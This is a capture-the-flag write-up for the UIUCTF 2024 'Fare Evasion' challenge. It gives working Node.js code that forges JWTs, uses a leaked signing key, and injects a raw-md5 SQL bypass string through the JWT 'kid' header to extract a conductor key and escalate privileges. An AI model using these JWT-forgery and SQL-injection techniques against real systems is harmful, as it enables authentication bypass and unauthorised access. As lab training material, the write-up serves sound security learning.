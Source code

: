 - Challenge name: Fare Evasion
- Author: Louis
- Description: 
SIGPwny Transit Authority needs your fares, but the system is acting a tad odd. We'll let you sign your tickets this time!
- Solves: 173
- Key: uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
- Solver: `Flex` in `SpeedBambooFox`

# Overview

In this challenge, the challenge provides a website just like the Mini Metro style offical UIUCTF 2024 website and explain metro cannot run without fares, and there are two buttons, one for I'm a Passenger that can be clicked, and another for I'm a conductor that can't be clicked, as shown below:
![The Website](./images/image1.png)

When we click the "I'm a Passenger" button, an alert appears with the message, as illustrated below:
![The Website](./images/image2.png)

Too bad:\(, we need conductor privilege to get in the system.

# Exploration

## The JWT in Cookies

When I dig into the cookies, there is a  `access_token` in the cookie, which is encoded as a JWT.

![The Website](./images/image4.png)

To decode this JWT, I wrote a simple program:
```
const jwt = require('jsonwebtoken');
const token = 'eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs';
const decoded = jwt.decode(token, { complete: true });

if (decoded) {
    const header = decoded.header;
    const payload = decoded.payload;

    console.log('Header:', header);
    console.log('Payload:', payload);
} else {
    console.error('Invalid token');
}
```


After we decode `access_token`, the JWT's header is
```
Header: { alg: 'HS256', kid: 'passenger_key', type: 'JWT' }
```
and payload is:
```
Payload: { type: 'passenger' }
```

This JWT indicates the token of a passenger, which contains a `kid` that would be useful for the exploit.

## Secret in alert
![The Website](./images/image2.png)

There's something in alert that has a bunch of random code and a secret, where the secret is `a_boring_passenger_signing_key_? `, it indicate that it is the JWT signing key of passenagers.

We can write a program to verify the correctness of its key:

```
const jwt = require('jsonwebtoken');
const secretKey = 'a_boring_passenger_signing_key_?';
const token = 'eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs';

try {
    const decoded = jwt.verify(token, secretKey);
    console.log(decoded);
} catch (err) {
    console.error('Invalid token', err);
}
```

The output confirms the JWT signing key for passengers:
```
{ type: 'passenger' }
```

## DB query statement in Body

There is something that caught my attention in the \<script\> section:
``` html
<script>
    async function pay() {
      // i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
      const r = await fetch("/pay", { method: "POST" });
      const j = await r.json();
      document.getElementById("alert").classList.add("opacity-100");
      // todo: convert md5 to hex string instead of latin1??
      document.getElementById("alert").innerText = j["message"];
      setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
    }
  </script>
```

In the `pay()` function, it sends a request to the `/pay"` endpoint to fetch the resource from the server, and then displays the corresponding alert, and I noticed that when we press the `I'm a passenger` button, it triggers the `pay()` funciton, which indicates that the endpoint will go through some kind of authentication, then send back the corresponding response.

And the comment shows the most important hint of the challenge, before throwing in the query statement, the `kid` goes through an md5 hash, which means we can do a sql injection by modifying the `kid` and then by passing through md5, and the `kid` in the JWT payload can be mapped to the  `kid` in the annotated db query statement.

# Exploit

Now We have an idea, if we can do sql injection to get the conductor JWT signed key, and fake conductor's JWT, we may be able to gain conductor's entry into the system.

## Bypass through MD5

Now, we guess that the server side is running a piece of code that is annotated in the HTML body:
```
db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => { ???????
```

There exists a most commonly used bypass trick: `ffifdyop`, whose corresponding 32-bit md5 code is `276f722736c95d99e921722cf9ed621c`, which is converted to ASCII as `'or'6<trash>*`,  and now the code will look like this

```
db.each(`SELECT * FROM keys WHERE kid = 'or'6<trash>*`, (err, row) => { ???????``
```

Now the query statement will select all columns in `keys` table,  we can inject `ffifdyop` in `kid` field of JWT header, here is sample code for generating a JWT that can perform SQL injection:
```
const jwt = require('jsonwebtoken');
const originalJwt = 'eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs';
const secretKey = 'a_boring_passenger_signing_key_?';

let decodedPayload;
try {
  decodedPayload = jwt.verify(originalJwt, secretKey);
} catch (err) {
  console.error('Invalid token:', err.message);
  return;
}

const newJwt = jwt.sign(decodedPayload, secretKey, { algorithm: 'HS256', header: { alg: 'HS256', kid: `129581926211651571912466741651878684928`, typ: 'JWT' } });

console.log('Original JWT:', originalJwt);
console.log('New JWT:', newJwt);
```

After inject the new JWT, we can click the again to see the alert, as shown in the image below: 

![The Website](./images/image5.png)

We can see that the conductor's key `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e` appears in the alert

This key is what we want, and we can use it to generate the conductor's JWT. To generate a new conductor's key, I wrote a program as below:

```
const jwt = require('jsonwebtoken');

const secretKey = 'conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e';

const newJwt = jwt.sign({ type: 'conductor' }, secretKey, { algorithm: 'HS256', header: { alg: 'HS256', kid: `129581926211651571912466741651878684928`, typ: 'JWT' } });
console.log(newJwt)
```

We modify the `access token` in cookies to the conductor JWT we generated, and click the `I'm a Passenger` again, the flag appears in alert, as shown in the image below:

![The Website](./images/image6.png)



